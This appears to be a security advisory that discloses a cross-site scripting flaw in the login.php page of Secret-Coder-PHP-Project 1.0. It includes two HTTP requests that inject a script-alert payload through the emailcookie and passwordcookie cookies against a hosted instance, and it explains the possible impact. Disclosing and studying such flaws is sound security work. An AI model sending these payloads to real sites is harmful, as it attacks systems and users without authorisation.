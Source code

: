 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Secret-Coder-PHP-Project 1.0](https://github.com/keerti1924/Secret-Coder-PHP-Project/) <br/>

**Affected Version**:
> keerti1924/Secret-Coder-PHP-Project 1.0

**Affected Site Page**: 
> /login.php<br/>

**Affected Code**: 
> <https://github.com/keerti1924/Secret-Coder-PHP-Project/blob/main/login.php> <br/>

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Login page of Secret-Coder-PHP-Project is vulnerable to XSS by modifying cookies `emailcookie` and `passwordcookie` making the website vulnerable on 2 instances.

Option 1:
```http 
GET /login.php HTTP/2
Host: secret-coder1924.000webhostapp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: emailcookie="><script>alert('reigz')</script>
```

Option 2:
```http 
GET /login.php HTTP/2
Host: secret-coder1924.000webhostapp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Cookie: passwordcookie="><script>alert('reigz')</script>
```

## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."
